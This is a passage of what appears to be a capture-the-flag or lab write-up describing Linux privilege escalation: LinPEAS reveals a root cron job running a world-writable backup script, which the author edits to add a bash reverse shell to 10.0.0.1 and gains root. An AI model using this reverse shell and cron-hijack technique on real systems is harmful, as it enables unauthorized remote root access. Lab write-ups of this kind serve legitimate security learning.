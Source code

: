 ![image.png](images/sql-injection-to-reverse-shell-and-root-access/admin-panel.png)

### Privilege Escalation with LinPEAS

Now it was time to go for root. I ran **LinPEAS** to hunt for privilege escalation paths.

One thing stood out: a suspicious cron job:

```bash
* * * * * root /opt/lion/lion.backup.sh
...
```

If I had write access to that script… jackpot.

Checked permissions:

```bash
ls -l /opt/lion/lion.backup.sh
-rwxr-xrwx 1 root root 377 Mar 19  2021 /opt/lion/lion.backup.sh
```

Perfect. I edited the script to include a reverse shell payload:

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

… And got my shell… as **root**!
